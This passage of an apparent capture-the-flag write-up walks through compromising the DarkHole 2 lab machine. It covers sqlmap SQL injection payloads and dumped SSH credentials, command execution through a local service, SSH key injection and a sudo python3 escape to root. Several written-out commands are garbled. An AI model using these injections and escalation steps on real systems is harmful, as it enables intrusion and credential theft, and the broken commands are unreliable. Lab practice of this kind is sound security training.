umber of query columns. Automatically extending the range for current UNION query injection technique test
[15:40:19] [INFO] target URL appears to have 6 columns in query
[15:40:19] [WARNING] reflective value(s) found and filtering out
[15:40:19] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 207 HTTP(s) requests:
---
Parameter: id (GET)
   Type: boolean-based blind
   Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
   Payload: id=0' AND 6929=(SELECT (CASE WHEN (6929=6929) THEN 6929 ELSE (SELECT 4888 UNION SELECT 5201) END))-- Y
mkv

   Type: time-based blind
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   Payload: id=0' AND (SELECT 7288 FROM (SELECT(SLEEP(5)))eTVN)-- hcNy

   Type: UNION query
   Title: Generic UNION query (NULL) - 6 columns
   Payload: id=0' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7171717171,0x6d776b7154616247555a70544b714c4a
6777726e546b6a71776251656d75695257767356524e727a,0x717a6b7171)-- -
---
[15:40:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[15:40:20] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 80 times
[15:40:20] [INFO] fetched data logged to text files under '/home/mr_blue/.local/share/sqlmap/output/10.0.0.35'

[*] ending @ 15:40:20 /2026-06-20/
```

BAZINGA! We found out that, after all, the `id` parameter is really susceptible to SQL injection, and the database has exactly 6 columns.

## 7. Database Dump

After this, I ran the command to dump the database names.

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ sqlmap -u "http://10.0.0.35/dashboard.php?id=0" --cookie='PHPSESSID=jn30af77bmv1rf3gc6efo5k2b2' -p id --techniq
ue=U --union-cols=6 --batch --dbs
       ___
      __H__
___ ___[)]_____ ___ ___  {1.10.6#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
     |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are
not responsible for any misuse or damage caused by this program

[*] starting @ 15:44:22 /2026-06-20/

[15:44:22] [INFO] resuming back-end DBMS 'mysql'
[15:44:22] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
   Type: UNION query
   Title: Generic UNION query (NULL) - 6 columns
   Payload: id=0' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7171717171,0x6d776b7154616247555a70544b714c4a
6777726e546b6a71776251656d75695257767356524e727a,0x717a6b7171)-- -
---
[15:44:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[15:44:23] [INFO] fetching database names
[15:44:23] [WARNING] reflective value(s) found and filtering out
available databases [5]:
[*] darkhole_2
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

We got the database names. The one that called my attention was `darkhole_2`, so I ran the command to dump its table names.

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ sqlmap sqlmap -u "http://10.0.0.35/dashboard.php?id=0" --cookie='PHPSESSID=jn30af77bmv1rf3gc6efo5k2b2' -p id -t
echnique=U --union-cols=6 --batch -D darkhole_2 --tables
       ___
      __H__
___ ___["]_____ ___ ___  {1.10.6#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
     |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are
not responsible for any misuse or damage caused by this program

[*] starting @ 15:45:55 /2026-06-20/

[15:45:55] [INFO] resuming back-end DBMS 'mysql'
[15:45:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
   Type: UNION query
   Title: Generic UNION query (NULL) - 6 columns
   Payload: id=0' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7171717171,0x6d776b7154616247555a70544b714c4a
6777726e546b6a71776251656d75695257767356524e727a,0x717a6b7171)-- -
---
[15:45:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[15:45:56] [INFO] fetching tables for database: 'darkhole_2'
[15:45:56] [WARNING] reflective value(s) found and filtering out
Database: darkhole_2
[2 tables]
+-------+
| ssh   |
| users |
+-------+

[15:45:56] [INFO] fetched data logged to text files under '/home/mr_blue/.local/share/sqlmap/output/10.0.0.35'

[*] ending @ 15:45:56 /2026-06-20/
```

Now we have two tables, `ssh` and `users`. As we already know the server is running an SSH service, we will dump the content of the `ssh` table first.

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ sqlmap sqlmap -u "http://10.0.0.35/dashboard.php?id=0" --cookie='PHPSESSID=jn30af77bmv1rf3gc6efo5k2b2' -p id -t
echnique=U --union-cols=6 --batch -D darkhole_2 -T ssh --dump
       ___
      __H__
___ ___[,]_____ ___ ___  {1.10.6#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
     |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are
not responsible for any misuse or damage caused by this program

[*] starting @ 15:47:40 /2026-06-20/

[15:47:40] [INFO] resuming back-end DBMS 'mysql'
[15:47:40] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
   Type: UNION query
   Title: Generic UNION query (NULL) - 6 columns
   Payload: id=0' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7171717171,0x6d776b7154616247555a70544b714c4a
6777726e546b6a71776251656d75695257767356524e727a,0x717a6b7171)-- -
---
[15:47:40] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[15:47:40] [INFO] fetching columns for table 'ssh' in database 'darkhole_2'
[15:47:41] [WARNING] reflective value(s) found and filtering out
[15:47:41] [INFO] fetching entries for table 'ssh' in database 'darkhole_2'
Database: darkhole_2
Table: ssh
[1 entry]
+----+------+--------+
| id | pass | user   |
+----+------+--------+
| 1  | fool | jehad  |
+----+------+--------+

[15:47:41] [INFO] table 'darkhole_2.ssh' dumped to CSV file '/home/mr_blue/.local/share/sqlmap/output/10.0.0.35/dum
p/darkhole_2/ssh.csv'
[15:47:41] [INFO] fetched data logged to text files under '/home/mr_blue/.local/share/sqlmap/output/10.0.0.35'

[*] ending @ 15:47:41 /2026-06-20/
```

And we did it. We got the credentials to access the Dark Hole machine by SSH. But I could not just advance without dumping `users` and checking if there was anything interesting there.

There was nothing new, only what we had already seen on the main page.

Figure 11 — SQLMap dump of the `users` table.



## 8. SSH Access and User Flag

SSH time: we put the credentials in and we are on the Dark Hole machine, as shown below.

Figure 12 — SSH access as `jehad`.



I started to travel across directories to see if I could find any flag.

We could see there were three users: `jehad`, `lama`, and `losy`. There was nothing in the `lama` folder, so I went to `losy` and found the user flag.

Figure 13 — User flag in `losy`.



After that, I could see there was a `.ssh` folder with public keys in the `jehad` folder. To get the root flag, this indicated that maybe we should create an SSH public key and put it in the `losy` directory.

Figure 14 — `.ssh` directory and keys.



After that, I investigated `.bash_history` and saw that `jehad` had already connected before to the machine by SSH on port `9999`.

So I ran `ss -ltnp` to see what kind of service was running on the machine and saw `127.0.0.1:9999`. This means the SSH is still accessible.

```text
jehad@darkhole:~$ cd ..
jehad@darkhole:/home$ ss -ltnp
State        Recv-Q       Send-Q             Local Address:Port              Peer Address:Port       Process
LISTEN       0            128                      0.0.0.0:22                     0.0.0.0:*
LISTEN       0            70                     127.0.0.1:33060                  0.0.0.0:*
LISTEN       0            151                    127.0.0.1:3306                   0.0.0.0:*
LISTEN       0            4096                   127.0.0.1:9999                   0.0.0.0:*
LISTEN       0            4096               127.0.0.53%lo:53                     0.0.0.0:*
LISTEN       0            128                         [::]:22                        [::]:*
LISTEN       0            511                            *:80                           *:*
After that I runned a simple curl and the server answered that it was waiting a parameter cmd as response ...
```

So I ran `"curl -G --data-urlencode 'cmd=id' http://127.0.0.1:9999/"` and saw that the commands were being executed as the `losy` user.

```text
jehad@darkhole:/home$ curl http://127.0.0.1:9999/
Parameter GET['cmd']jehad@darkhole:/home$ curl -G --data-urlencode 'cmd=id' http://127.0.0.1:9999/
Parameter GET['cmd']uid=1002(losy) gid=1002(losy) groups=1002(losy)
uid=1002(losy) gid=1002(losy) groups=1002(losy)jehad@darkhole:/home$
```

Figure 15 — RCE through local service on port `9999`.



## 9. SSH Key Injection as `losy`

With the RCE executing commands as `losy`, it was possible to add a public key to the directory `/home/losy/.ssh/authorized-keys`.

First, a pair of SSH keys was generated:

```bash
ssh -keygen -t ed25519 -f /tmp/losy_key - N '' q
```

This created:

- `/tmp/losy_key` -> private key
- `/tmp/losy_key.pub` -> public key

After this, the public key was put in a variable:

```bash
PUB = $(cat /tmp/losy_key.pub)
```

Confirmation:

```bash
echo "$PUB"
```

After that, the key injection by RCE was supposed to happen, so I ran:

```bash
"mkdir -p /home/losy/.ssh"
```

That creates the SSH directory.

```bash
"echo '$PUB' >> /home/losy/.ssh/authorized_keys
```

This adds the public key to the authorized key file.

```bash
"chmod 700 /home/losy/.ssh Defines correct permissions on directory .ssh "
```

```bash
"chmod 600 /home/losy/.ssh/authorized_keys"
```

This defines the correct permissions on the `authorized_keys` file.

After that, we log in by SSH.

Figure 16 — SSH login as `losy`.



And bingo! Here we are as `losy`. So I did some basic searching between directories until I ran `cat .bash_history`, the same thing I did as `jehad`.

Figure 17 — `.bash_history` as `losy`.



```text
clear
exit
clear
exit
clear
exit
clear
exit
clear
ls
ls -al
ls -la
clear
exit
clear
exit
clear
exit
clear
cd ~
ls
ls -la
pwd
ssh-keygen -t rsa -b 4096
clear
chmod 777 .ssh/
cd .ssh/
chmod 666 id_rsa
clear
ls -la
clear
cd ..
ls -la
rm .ssh/
rm -r .ssh/
clear
ls -la
ssh-kyegen
exit
clear
ls -la
cd /home/losy/
clear
ls -la
rm -r .ssh/
clear
ls -la
pwd
ssh-keygen -t rsa
ls -la
ssh-keygen -t rsa
clear
chmod 777 .ssh/
cd .ssh/
chmod 666 id_rsa
php -S localhost:9999
clear
sudo su
su lama
clear
ls -la
cat /etc/crontab
su lama
mkdir web
ls -la
su lama
ls
touch index.php
cd ..
ls
ls -la
sudo su
c
clear
su lama
clear
su lama
mysql -e '\! /bin/bash'
mysql -u root -p -e '\! /bin/bash'
P0assw0rd losy:gang
clear
sudo -l
sudo python3 -c 'import os; os.system("/bin/sh")'
sudo python -c 'import os; os.system("/bin/sh")'
sudo /usr/bint/python3 -c 'import os; os.system("/bin/sh")'
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
clear
cd ~
cat .bash_history
clear
id
clear
ls -al
cd home
cd /home
ls
clear
cd jehad/
ls -la
cd ..
cd losy/
cat .bash_history
clear
ls -la
ss
cat .bash_history
clear
password:gang
```

## 10. Privilege Escalation to Root

We discovered that the password for `losy` is `gang`, and she executed:

```bash
python3 -c 'import os; os.system("/bin/sh")'
```

Before running anything, I tried to see the cron jobs running on the machine at that time and saw that MySQL and PHP were being executed by the system.

I tried to do privilege escalation using MySQL, which was executing as root, but it did not work.

Finally, I ran the command found in the `.bash_history` file:

```bash
python3 -c 'import os; os.system("/bin/sh")'
```

Then I entered the `losy` credentials and BINGO, we got root.

Figure 18 — Cron and sudo/Python privilege escalation attempt.



After that, I just went to the root folder and read the flag from the terminal.

Figure 19 — Root flag.



```text
DarkHole{'Legend'}
```
